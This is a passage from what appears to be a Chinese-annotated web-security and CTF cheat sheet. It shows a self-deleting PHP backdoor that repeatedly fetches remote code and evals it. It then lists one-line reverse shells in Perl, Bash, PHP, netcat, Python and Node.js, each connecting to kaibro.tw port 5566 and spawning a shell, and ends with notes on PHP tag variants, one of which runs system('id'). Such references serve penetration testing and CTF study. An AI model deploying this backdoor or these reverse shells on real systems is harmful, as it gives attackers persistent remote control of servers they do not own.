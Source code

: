 解法：restart
```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```


## Reverse Shell

- 本机Listen Port
    - `ncat -vl 5566`

- Perl
    - `perl -e 'use Socket;$i="kaibro.tw";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
    - `bash -i >& /dev/tcp/kaibro.tw/5566 0>&1`
    - `bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`
    - `0<&196;exec 196<>/dev/tcp/kaibro.tw/5566; sh <&196 >&196 2>&196`

- PHP
    - `php -r '$sock=fsockopen("kaibro.tw",5566);exec("/bin/sh -i <&3 >&3 2>&3");'`

- NC
    - `nc -e /bin/sh kaibro.tw 5566`

- Python
    - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- Node.js
    - `var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(5566, "kaibro.tw", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});`
    - `require('child_process').exec("bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'");`

# PHP Tag

- `<? ?>`
    - short_open_tag 决定是否可使用短标记
    - 或是编译php时 --enable-short-tags
- `<?=`
    - 等价 <? echo
    - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
    - 自`PHP 7.0.0`起，被移除
    - 须将`asp_tags`设成On
- `<script language="php"`
    - 自`PHP 7.0.0`起，被移除
    - `<script language="php">system("id"); </script>`
